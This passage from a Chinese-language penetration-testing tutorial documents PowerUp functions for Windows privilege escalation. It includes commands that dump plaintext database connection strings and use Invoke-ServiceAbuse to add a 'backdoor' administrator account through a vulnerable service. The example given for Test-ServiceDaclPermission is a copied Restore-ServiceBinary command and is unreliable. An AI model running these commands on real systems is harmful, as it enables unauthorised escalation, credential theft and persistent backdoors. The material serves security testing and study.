 ![img](https://img-blog.csdnimg.cn/20190108183018472.png)

12.Get-ModifiableScheduledTaskFile

返回当前用户能够修改的计划任务程序的名称和路径。

执行方式：

```
PS C:>Get-ModifiableScheduledTaskFile
```

![img](https://img-blog.csdnimg.cn/20190108183203911.png)

13.Get-Webconfig

返回当前服务器上的web.config文件中的数据库连接字符串的明文。

执行方式：

```
PS C:>get-webconfig
```

![img](https://img-blog.csdnimg.cn/20190108183304418.png)

14.Invoke-ServiceAbuse

用来通过修改服务添加用户到指定组，并可以通过定制-cmd参数触发添加用户的自定义命令。

执行方式:

```
PS C:> Invoke-ServiceAbuse -ServiceName VulnSVC # 添加默认账号
PS C:> Invoke-ServiceAbuse -ServiceName VulnSVC -UserName "TESTLABjohn" # 指定添加域账号
PS C:> Invoke-ServiceAbuse -ServiceName VulnSVC -UserName backdoor -Password password -LocalGroup "Administrators" # 指定添加用户，用户密码以及添加的用户组。
PS C:> Invoke-ServiceAbuse -ServiceName VulnSVC -Command "net ..."# 自定义执行命令
```

15.Restore-ServiceBinary

恢复服务的可执行文件到原始目录。

执行方式：

```
PS C:> Restore-ServiceBinary -ServiceName VulnSVC
```

16.Test-ServiceDaclPermission

检查某个用户是否在一个服务有自由访问控制的权限，返回true或false。

执行方式：

```
PS C:> Restore-ServiceBinary -ServiceName VulnSVC
```

17.Write-HijackDll
